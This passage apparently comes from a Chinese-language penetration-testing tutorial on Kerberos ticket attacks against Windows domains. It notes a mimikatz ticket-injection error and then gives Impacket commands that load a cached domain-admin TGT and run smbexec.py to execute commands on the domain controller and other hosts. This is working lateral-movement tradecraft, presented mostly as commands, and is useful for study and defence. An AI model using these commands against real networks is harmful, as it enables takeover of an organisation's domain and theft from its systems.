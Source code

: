 [![](assets/1699929539-2dfa45d093234bd7e0cf200294bfea59.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112013829-2086d9fa-80b9-1.png)

注意：

-   通过票据认证时，目标主机需要为主机名-Kerberos认证不支持IP
    
-   在Win Server 2003、Win XP下使用 mimikatz 进行 `kerberos::ptc xx.cache` 内存导入票据时，会出现以下错误
    

```plain
* Injecting ticket : ERROR kuhl_m_kerberos_ptt_data ; LsaCallAuthenticationPackage KerbSubmitTicket Message : c000000d
```

#### Impacket 缓存域管TGT票据

```plain
# 指定TGT票据
➜  examples git:(master) ✗ export KRB5CCNAME=TGT_lihua@qftm.com.ccache

# 攻击域控
➜  examples git:(master) ✗ python3 smbexec.py qftm.com/lihua@dc.qftm.com -dc-ip 192.168.1.10 -k -no-pass -code gbk -debug

# 攻击其它Target
➜  examples git:(master) ✗ python3 smbexec.py qftm.com/lihua@targetHostname -dc-ip 192.168.1.10 -k -no-pass -code gbk -debug
```
